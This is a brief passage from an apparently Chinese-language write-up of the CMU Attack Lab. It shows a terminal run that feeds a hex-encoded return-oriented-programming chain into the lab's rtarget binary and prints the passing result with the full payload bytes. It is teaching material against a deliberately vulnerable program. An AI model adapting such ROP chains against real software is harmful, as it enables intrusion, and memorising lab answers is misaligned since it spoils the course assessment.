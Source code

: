 验证结果正确性：
```
➜  target1 git:(master) ✗ cat level5 | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 EA 19 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
```
